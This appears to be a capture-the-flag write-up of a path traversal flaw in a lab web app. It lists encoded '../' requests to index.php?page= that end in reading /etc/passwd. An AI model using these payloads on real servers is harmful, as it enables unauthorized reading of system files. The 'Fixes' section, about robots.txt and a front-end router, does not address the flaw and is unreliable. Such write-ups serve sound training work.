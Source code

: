 #05 Path Traversal Vulnerability

## Method


1. Going to http://192.168.0.179/index.php?page=%2f produces a javascript alert "Wtf ?"

```
index.php?page=%2f../ Wtf ?
```

```
index.php?page=%2f../../ Wrong...
```

```
index.php?page=%2f../../ Nope...
```
```
index.php?page=%2f../../../ Almost.
```

```
index.php?page=%2f../../../ Still nope..
```
```
index.php?page=%2f../../../../../../ Nope..
```

```
index.php?page=%2f../../../../../../../ You can DO it !!!  :]
```
```
http://192.168.0.179/index.php?page=%2f../../../../../../../etc/passwd Congratulaton!! The flag is : 
```
## Fixes
1. Make sure the folders listed in robots.txt have restricted access by using a router on the front end


## Resources
* [OWASP Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal)
* [Portswigger File Traversal](https://portswigger.net/web-security/file-path-traversal)